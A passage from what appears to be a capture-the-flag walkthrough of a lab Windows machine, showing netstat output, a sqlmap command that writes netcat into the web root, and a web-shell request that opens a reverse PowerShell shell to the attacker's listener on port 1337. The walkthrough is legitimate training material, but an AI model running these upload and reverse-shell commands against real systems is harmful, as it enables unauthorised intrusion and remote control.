 ```
  TCP    10.10.10.167:80        10.10.14.81:47032      ESTABLISHED     4
  TCP    10.10.10.167:80        10.10.14.81:47298      CLOSE_WAIT      4
  TCP    10.10.10.167:80        10.10.14.81:47300      ESTABLISHED     4
  TCP    10.10.10.167:56686     10.10.14.81:1337       ESTABLISHED     4424
  TCP    [::]:80                [::]:0                 LISTENING       4
  TCP    [::]:135               [::]:0                 LISTENING       816
  TCP    [::]:3306              [::]:0                 LISTENING       1848
  TCP    [::]:5985              [::]:0                 LISTENING       4
  TCP    [::]:47001             [::]:0                 LISTENING       4
  TCP    [::]:49664             [::]:0                 LISTENING       452
  TCP    [::]:49665             [::]:0                 LISTENING       312
  TCP    [::]:49666             [::]:0                 LISTENING       952
  TCP    [::]:49667             [::]:0                 LISTENING       1684
  TCP    [::]:49668             [::]:0                 LISTENING       584
  TCP    [::]:49669             [::]:0                 LISTENING       592
  UDP    0.0.0.0:123            *:*                                    1920
  UDP    0.0.0.0:5353           *:*                                    1208
  UDP    0.0.0.0:5355           *:*                                    1208
  UDP    0.0.0.0:58660          *:*                                    1208
  UDP    127.0.0.1:51281        *:*                                    952
  UDP    [::]:123               *:*                                    1920
  UDP    [::]:5353              *:*                                    1208
  UDP    [::]:5355              *:*                                    1208
  UDP    [::]:58660             *:*                                    1208
```

There's probably a firewall blocking external connections to it. A cool tool
that I found out while doing this machine is
[plink](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html), which
is basically PuTTY but command line. We can use it to forward the internal port
to our machine, but first we have to get a shell.

## Forwarding WinRM port using a SSH tunnel
Let's download [netcat](https://eternallybored.org/misc/netcat/) for Windows and
upload it using sqlmap again:
```
$ sqlmap -r post --file-dest='C:\inetpub\wwwroot\nc64.exe' --file-write nc64.exe
```

I just omitted the output as it's too long. If it looks stuck just give it some
time because the file is a bit big.

Now let's start a netcat listener on our machine with `nc -lnvp 1337` and let's
get a reverse shell by making a request to
`http://10.10.10.167/shell.php?cmd=nc64.exe+10.10.14.81+1337+-e+powershell.exe`:
```
$ nc -lnvp 1337                                                                                                                                                                                                                         
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.10.167.
Ncat: Connection from 10.10.10.167:50612.
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\inetpub\wwwroot>
```
